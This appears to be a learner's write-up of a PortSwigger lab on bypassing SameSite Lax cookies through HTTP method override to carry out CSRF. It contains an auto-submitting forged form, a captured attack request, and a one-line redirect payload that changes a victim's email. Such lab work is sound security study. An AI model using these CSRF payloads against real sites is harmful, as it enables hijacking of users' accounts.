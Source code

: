 ### Lab: SameSite Lax bypass via method override

This lab's change email function is vulnerable to CSRF. To solve the lab, perform a CSRF attack that changes the victim's email address. You should use the provided exploit server to host your attack.

You can log in to your own account using the following credentials: wiener:peter

_____

Analysis and Exploit:

1. Logged-in as user _wiener_. No CSRF token in /login and /my-account webpages

2. Same-Site not specified in Set-Cookie after login, so default is Lax since the victim is using Google Chrome  
    - flags Secure and HttpOnly applied to session cookie
    - cookies are passed only if GET method is used and requests come from a top-level navigation

3. Changed method from POST to GET for /my-account/change-email (email=x@x) to /my-account/change-email?email=testhe%40function, returned status code 405 Method not allowed ("Method Not Allowed")

4. Created fake form with method override from POST to GET
```html
<html>
    <body>
        <form action="URL/my-account/change-email" method="POST">
            <input type="hidden" name="httpMethod" value="GET">
            <input required type="email" name="email" value="yougot@hacked">
            <button type="submit">Submit</button>
        </form>
        <script>document.forms[0].submit()</script>
    </body>
</html>
```

```http
POST /my-account/change-email HTTP/2
Host: 0a92003803fa9f63823810f200f100af.web-security-academy.net
Cookie: session=3EqRJot6HsdPVGJUNEPR38GBfoUlktjD;
Content-Length: 26
Cache-Control: max-age=0
Sec-Ch-Ua: "Google Chrome";v="113", "Chromium";v="113", "Not-A.Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: https://exploit-0a160050030b9f8b82d10f4901f400ef.exploit-server.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://exploit-0a160050030b9f8b82d10f4901f400ef.exploit-server.net/
Accept-Encoding: gzip, deflate
Accept-Language: it-IT,it;q=0.9,en-US;q=0.8,en;q=0.7

httpMethod=GET&email=yougot%40hacked
```

Step 4 works then tested but for some reason does not solve the lab.

Portwsigger solution is to change the request method within Burpsuite from POST to GET and add the parameter **_method="POST** to the GET request...

```html
<script>
    document.location="https://0ac300090406d61281e67abd00390019.web-security-academy.net/my-account/change-email?email=youjustgot%40hacked&_method=POST"
</script>
```
